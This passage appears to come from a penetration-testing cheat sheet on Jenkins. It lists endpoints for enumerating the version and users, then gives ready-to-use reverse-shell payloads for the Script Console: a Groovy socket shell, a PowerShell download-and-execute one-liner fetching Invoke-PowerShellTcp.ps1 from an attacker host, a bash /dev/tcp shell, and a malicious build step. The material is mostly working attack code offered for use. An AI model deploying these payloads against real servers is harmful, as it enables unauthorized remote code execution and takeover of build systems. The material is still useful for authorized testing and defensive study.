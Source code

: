 Version check.
- `/oops`
- `/err`

List users (without creds).
- `/people`
- `/asynchPeople`
- `/securityRealm/user/admin/search/index?q=USERNAME`


**Gaining Shell**

`Manage Jenkins` - `Script Console`

*Generic*

```text
String host="IP";
int port=6969;
String cmd="/bin/bash";
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start() ; Socket s=new Socket(host,port) ; InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream() ; OutputStream po=p.getOutputStream(), so=s.getOutputStream() ; while(!s.isClosed()) {while(pi.available()>0) so.write(pi.read()) ; while(pe.available()>0) so.write(pe.read()) ; while(si.available()>0) po.write(si.read()) ; so.flush() ; po.flush() ; Thread.sleep(50) ; try {p.exitValue() ; break;} catch (Exception e){}} ; p.destroy() ; s.close();
```

*Windows*

```text
cmd = """ powershell -nop -ep bypass -c "iex ( (New-Object Net.WebClient).DownloadString('http://ATTACKERIP/tools/Invoke-PowerShellTcp.ps1') ) ; Invoke-PowerShellTcp -Reverse -IPAddress ATTACKERIP -Port " """
println cmd.execute().text
```

*Linux*

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/IP/PORT ; cat <&5 | while read line ; do \$line 2>&5 >&5 ; done"] as String[])
p.waitFor()
```


*New Project method*

`New Item` > `Freestyle Project` > `Build` > `Add Build Step` > `Execute Windows Batch Command`

```text
powershell -nop -ep bypass -c "iex ( (New-Object Net.WebClient).DownloadString('http://ATTACKERIP/tools/Invoke-PowerShellTcp.ps1') ) ; Invoke-PowerShellTcp -Reverse -IPAddress ATTACKERIP -Port "
```


#### WebDav
